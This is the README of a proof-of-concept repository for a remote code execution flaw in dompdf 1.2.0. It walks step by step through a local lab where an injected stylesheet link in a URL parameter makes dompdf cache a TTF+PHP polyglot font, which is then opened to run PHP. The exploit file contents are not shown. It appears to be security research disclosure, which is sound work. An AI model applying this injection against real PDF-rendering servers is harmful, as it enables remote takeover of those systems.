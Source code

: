 # RCE exploit for dompdf

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

![Exploit Overview](exploit/overview.png)

For more details, please visit https://positive.security/blog/dompdf-rce

## Setup Instruction on Ubuntu

- sudo apt install php7.4-cli
- sudo apt-get install php-mbstring
- sudo apt-get install php-dom
- sudo apt-get install php7.4-gd

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute `phpinfo()`
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains or ports, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
